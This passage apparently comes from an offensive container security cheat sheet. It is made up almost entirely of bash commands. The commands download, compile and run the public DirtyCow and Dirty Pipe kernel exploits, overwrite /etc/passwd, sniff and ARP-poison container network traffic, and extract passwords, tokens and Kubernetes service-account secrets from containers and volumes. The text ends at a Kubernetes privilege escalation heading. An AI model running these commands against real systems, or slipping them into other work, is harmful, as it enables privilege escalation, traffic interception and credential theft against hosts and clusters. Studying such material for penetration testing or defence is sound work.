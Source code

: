 Containers share the host's kernel, making kernel exploits particularly effective:

```bash
# Check kernel version
uname -a

# Find potential kernel exploits
searchsploit linux kernel $(uname -r | cut -d'-' -f1) privilege escalation

# Example: DirtyCow exploit (CVE-2016-5195)
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password

# Example: CVE-2022-0847 (Dirty Pipe)
wget https://raw.githubusercontent.com/blasty/CVE-2022-0847/main/dirty_pipe.c
gcc dirty_pipe.c -o dirty_pipe
./dirty_pipe /etc/passwd 1 admin:$1$aaaaaaa$4...
```

### Network-Based Container Attacks

#### Container Network Interface (CNI) Exploitation

```bash
# Sniff container network traffic
ip netns
ip netns exec <container-netns> tcpdump -i eth0 -w capture.pcap

# ARP poisoning within container network
arpspoof -i eth0 -t [target-container-ip] [gateway-ip]

# Exploiting unencrypted communication between containers
ettercap -TqM arp:remote /target-ip/ //
```

### Credential and Secrets Extraction

```bash
# Find credentials in environment variables
docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' [container-id]

# Extract secrets from volumes
find /var/lib/docker/volumes -type f -exec grep -l "password\|secret\|key\|token" {} \;

# Dump mounted Kubernetes secrets
find /run/secrets -type f -exec cat {} \; 2>/dev/null
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

## Kubernetes Privilege Escalation Techniques

When operating within a Kubernetes cluster, several techniques can lead to privilege escalation:
